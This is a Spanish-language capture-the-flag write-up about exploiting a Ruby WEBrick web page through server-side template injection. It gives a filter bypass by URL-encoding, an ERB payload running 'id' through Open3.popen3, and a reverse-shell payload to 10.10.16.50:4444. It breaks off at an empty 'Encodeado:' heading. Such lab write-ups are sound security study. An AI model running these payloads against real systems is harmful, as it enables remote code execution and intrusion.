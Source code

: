 - En el puerto 80 podemos ver una página web:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/32015dc7-6034-4116-b8d1-86a6d33519ca)

- Investigando un poco en la página, encontré un apartado interesante que me llamó la atención, tenemos que llenar los campos de `wheight` de tal forma que llenen un 100% numérico:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/1257b45b-1e37-4866-aa1c-b6b2c318864a)

- Probé varias veces introducir distintos parámetros, al parecer la página genera el contenido dinámicamente:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/fbdb6e99-b9ec-4979-b514-ea37f4491998)

- Intercepté la petición con Burpsuite.
- Intenté varias movidas, al tratarse de contenido generado dinámicamente (controlado por ``Ruby`` a través de ``WEBrick 1.7.0``) intenté con una Server-Side Template Injection con el payload `{7*7}`, pero se presentó un pequeño problema:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/a03df299-eb9d-402e-9a9e-21912ee8a79b)

- Encontré un [articulo para bypassear STTI](https://blog.devops.dev/ssti-bypass-filter-0-9a-z-i-08a5b3b98def) que explica como podemos encodear solo los caracteres especiales de nuestro payload.
- Hay que encodear solo los caracteres especiales, podemos usar [CyberChef](https://gchq.github.io/CyberChef/):

- Payload:

~~~bash
test
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('id') %><%= @b.readline()%>
test
~~~

- Encodeado:

~~~bash
test%0A%3C%25%20require%20%27open3%27%20%25%3E%3C%25%20%40a%2C%40b%2C%40c%2C%40d%3DOpen3%2Epopen3%28%27id%27%29%20%25%3E%3C%25%3D%20%40b%2Ereadline%28%29%25%3E%0Atest
~~~

- Podemos ver que está interpretando nuestro payload:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/7219c98e-2211-4a15-a467-372a0563a583)

- Ahora probaremos con este payload para entablar una conexión a través de una revshell:

- Payload:

~~~ruby
test
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('bash -c "bash -i >& /dev/tcp/10.10.16.50/4444 0>&1"') %><%= @b.readline()%>
test
~~~

- Encodeado:
